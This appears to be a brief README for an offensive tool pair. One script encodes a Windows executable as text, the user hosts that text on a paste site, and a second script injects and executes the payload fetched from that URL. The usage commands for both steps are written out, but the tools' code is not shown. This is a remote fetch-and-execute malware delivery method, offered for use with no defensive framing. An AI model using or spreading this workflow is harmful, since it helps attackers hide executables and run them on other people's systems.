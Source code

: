 ![logo](logo.png)

Create a payload:
```
python3 payload.py <input.exe> <output.txt>
```
Upload the payload anywhere that will host a text file. 

Inject and execute the payload:
```
python3 injector.py <https://paste-site.wherever>
```
